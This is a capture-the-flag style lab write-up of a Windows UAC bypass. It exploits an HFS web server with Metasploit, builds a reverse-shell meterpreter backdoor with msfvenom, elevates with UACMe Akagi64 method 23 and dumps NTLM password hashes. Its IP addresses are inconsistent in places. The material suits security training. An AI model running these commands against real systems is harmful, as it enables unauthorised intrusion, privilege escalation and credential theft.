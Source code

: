 # 🔬UAC Bypass

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> * Target IP: `10.4.17.63`
> * Local IP: `10.10.16.2`
> * **UAC** bypass

### Enumeration

```bash
nmap 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:55 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.58 seconds
```

* Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.0.17.63
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2024-07-05 12:57 IST
Nmap scan report for 10.0.17.63
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.58 seconds
```

The version can be checked in a browser by opening the link

* `http://10.4.17.63/`

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
searchsploit hfs
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

* Run `metasploit` without showing banner
* Set the target IP as **GLOBAL RHOSTS variable**

```bash
msfconsole -q
msf6 > setg RHOSTS 10.0.17.63
```

```bash
msf6 > search hfs
msf6 > use exploit/windows/http/rejetto_hfs_exec
# direct exploit since the RHOSTS has been set globally (can check with show options)
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Use `meterpreter` commands to gain more information about the target

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate current x86 `meterpreter` session to a x64 process

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Get `admin` user privileges

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> Privileges are very few which indicates that this user is not privileged at this point&#x20;

<figure><img src="../../../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

> Do not have permission to elevate privileges

* Verify if `admin` user is part of the local administrators group

```bash
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net localgroup administrators
```

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The admin user is a member of the Administrators group. However, it do not have the high privilege as of now.&#x20;



<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In order to run programs or tasks with elevated privileges, `UAC` bypass is necessary

### UAC Bypass & Privesc <a href="#uac-bypass-and-privesc" id="uac-bypass-and-privesc"></a>

* [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
root@attackdefense:~# ls /root/Desktop/tools/UACME/
Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Generate a `meterpreter` payload with `msfvenom`

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f exe > backdoor.exe
```

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set up a new `msfconsole` session and set up a listener with `multi/handler`, to receive the connection one the payload is executed on the target

* set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
* set the `LHOST` IP and `LPORT` of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

* The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
* Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* UAC would prevent running `backdoor.exe`
* Run `Akagi64.exe` executable with UACMe method 23

<figure><img src="../../../../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

* Elevated `meterpreter` session should be received on the listener

<figure><img src="../../../../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > getuid
meterpreter > getprivs
```

The privileges amount has increased.

<figure><img src="../../../../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Migrate to a `NT AUTHORITY\SYSTEM` service.

```bash
meterpreter > ps
```

<figure><img src="../../../../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > ps
meterpreter > migrate 508 
```

<figure><img src="../../../../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

> **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

<figure><img src="../../../../../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

{% hint style="success" %}
Flag: `4d6583ed4cef81c2f2ac3c88fc5f3da6`
{% endhint %}

